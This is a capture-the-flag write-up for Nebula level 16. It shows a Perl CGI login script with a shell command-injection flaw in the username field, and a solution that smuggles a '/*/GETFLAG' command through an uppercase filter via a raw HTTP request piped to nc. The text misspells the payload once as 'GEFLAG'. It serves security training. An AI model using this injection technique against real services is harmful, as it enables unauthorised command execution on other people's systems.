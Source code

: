 # Nebula - Level 16

### About ###

>There is a perl script running on port 1616.
>
>To do this level, log in as the level16 account with the password level16 . Files for this level can be found in /home/flag16.

### Source code ###

```perl
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/;  # conver to uppercase
  $username =~ s/\s.*//;    # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
    ($usr, $pw) = split(/:/, $line);
  

    if($pw =~ $password) { 
      return 1;
    }
  }

  return 0;
}

sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
    print("Your login was accepted<br/>");
  } else {
    print("Your login failed<br/>");
  }  
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

### Solution ###

This is another code injection, but this time the input are filtered. To solve this exercise, the filter has to be bypassed.

To achieve that, since the filter converts everything to uppercase, a script with only uppercase letters is needed.

The script is stored in `/tmp` and is called `GETFLAG`. The command `/*/GETFLAG` is used to launch it.

```
/bin/getflag>/tmp/flag16
```

Now, `GETFLAG` can be executed by giving the variable username the value `";/*/GEFLAG;"`.

```
level16@nebula:~$ printf "GET /index.cgi?username=%%22%%3b/*/GETFLAG%%3b%%22&password=test\r\nHost:localhost:1616\r\n\r\n" | nc localhost 1616 && cat /tmp/flag16
Content-type: text/html

<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
You have successfully executed getflag on a target account
```
